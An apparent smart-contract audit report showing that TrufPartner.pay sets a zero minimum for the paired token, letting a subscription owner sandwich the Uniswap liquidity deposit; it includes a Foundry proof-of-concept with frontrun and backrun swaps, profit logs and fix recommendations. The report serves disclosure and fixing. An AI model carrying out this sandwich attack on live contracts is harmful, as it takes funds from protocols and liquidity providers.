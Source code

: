 Noisy Tangelo Wolverine

medium

# `TrufPartner.pay` can be sandwiched, providing a profit to the subscription owner

## Summary

`TrufPartner.pay` sends an external call to Uniswap to add liquidity in a TRUF pair without checking if a sufficient amount of `pairToken` has been added to the pool. This call can potentially be sandwiched by large swaps in either direction, resulting in the subscription owner adding significantly less liquidity in the `pairToken`.

## Vulnerability Detail

The owner of the `TrufPartner` contract deposits a certain amount of TRUF tokens when initiating a subscription. It is expected that the subscription owner matches this `trufAmount` with an equivalent amount (in terms of reserve ratio) of `pairToken` by adding liquidity to an existing Uniswap pool when calling `TrufPartner.pay`.

In `TrufPartner.pay`, a value of zero ([TrufPartner#L144](https://github.com/sherlock-audit/2023-12-truflation/blob/main/truflation-contracts/src/TrufPartner.sol#L144)) is provided for the minimum amount of `pairToken` expected to be added as liquidity, and the check for the return value of `addLiquidity` to verify the sufficiency of the added `pairToken` amount is skipped.

Even though the `lpTokenMinOut` parameter is provided to check for the minimum output of LP tokens, a subscription owner can perform a sandwich attack as follows:
- Call `TrufPartner.pay` with `lpTokenMinOut` set to `0`.
- Frontrun the above transaction by performing a relatively large TRUF > `pairToken` swap in the Uniswap pool.
- The pool's reserve ratio is now heavily in favor of TRUF, and substantially less liquidity is added in the `pairToken`.
- Backrun the pay transaction and swap back the `pairToken` received in the frontrunner transaction.

### POC

This test function can be added to [TrufPartner.t.sol](https://github.com/sherlock-audit/2023-12-truflation/blob/main/truflation-contracts/test/TrufPartner.t.sol) and executed using: `forge test --mt test_pay_sandwichAttack -vv`

```solidity
function test_pay_sandwichAttack() external {
        pOwner = address(this);

        _initiate();

        // Mint truf token for the attacker
        trufToken.mint(address(this), 1e23);

        address[] memory path = new address[](2);
        path[0] = address(trufToken);
        path[1] = address(usdtToken);

        // Frontrun the pay transaction with a huge swap
        trufToken.approve(address(uniswapRouter), 1e23);
        uint256[] memory amounts =
            uniswapRouter.swapExactTokensForTokens(1e23, 0, path, address(this), block.timestamp + 1000);

        // The LP within the payment transaction gets sandwiched
        // Note: lpTokenMinOut is set to the low value of 1
        _pay();

        // Reverse path
        path[1] = address(trufToken);
        path[0] = address(usdtToken);

        // Backrun the pay transaction and swap out the previously received pair token
        usdtToken.approve(address(uniswapRouter), amounts[1]);
        uniswapRouter.swapExactTokensForTokens(amounts[1], 0, path, address(this), block.timestamp + 1000);

        console.log("Expected liquidity to be added in USDt: ", usdtTokenMaxIn);

        // Substantially less liquidity is added in the pair token i.e usdt
        console.log("Actual liquidity added in USDt: ", usdtTokenMaxIn - usdtToken.balanceOf(address(this)));
        console.log("TRUF tokens spent on fees in the attack: ", 1e23 - trufToken.balanceOf(address(this)));

        // If the admin cancels the subscription or equivalently when it ends and liquidity is returned
        // to the subscription owner
        _cancel();
       
        // The subscription owner profits on the pair token
        console.log("USDt balance after full attack completion: ", usdtToken.balanceOf(address(this)));
    }
```


## Impact

**POC Logs**
```javascript
Expected liquidity to be added in USDt:  4000000000
Actual liquidity added in USDt:  1876407305
TRUF tokens spent in the attack:  388176310581578056515
USDt balance after full attack completion:  4622037600
```
As is evident from the logs received from the POC:
- The subscription owner adds significantly less liquidity in USDt, i.e., the `pairToken`, than expected.
- When the subscription ends or is manually cancelled by the owner of `TrufPartner`, the subscription owner ends up making a profit in USDt.

## Code Snippet

Vulnerability: https://github.com/sherlock-audit/2023-12-truflation/blob/main/truflation-contracts/src/TrufPartner.sol#L138-L147

## Tool used

Manual Review

## Recommendation

- Revert `TrufPartner.pay` if a certain minimum amount of `pairToken` has not been added as liquidity.
- `TrufPartner.pay` can pull the current reserve ratio from the Uniswap pool and use it as a base to set the minimum expected liquidity to be added.
